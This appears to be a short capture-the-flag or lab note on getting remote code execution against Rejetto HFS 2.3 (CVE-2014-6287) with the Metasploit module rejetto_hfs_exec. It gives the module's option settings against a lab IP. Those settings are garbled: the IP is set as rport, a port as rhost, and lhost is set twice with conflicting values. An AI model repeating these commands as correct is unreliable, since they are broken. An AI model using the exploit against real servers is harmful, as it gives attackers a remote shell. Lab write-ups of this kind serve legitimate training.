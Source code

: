 HFS 2.3 is vulnerable to RCE ([2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287))

Since publicly available exploits were not usable, used Metasploit

```msf
msf6 exploit(windows/http/rejetto_hfs_exec)

set rport 10.10.151.69
set rhost 8080
set srvport 80
set lhost tun0
set lhost 4444
```

![[Pasted image 20240813122608.png]]

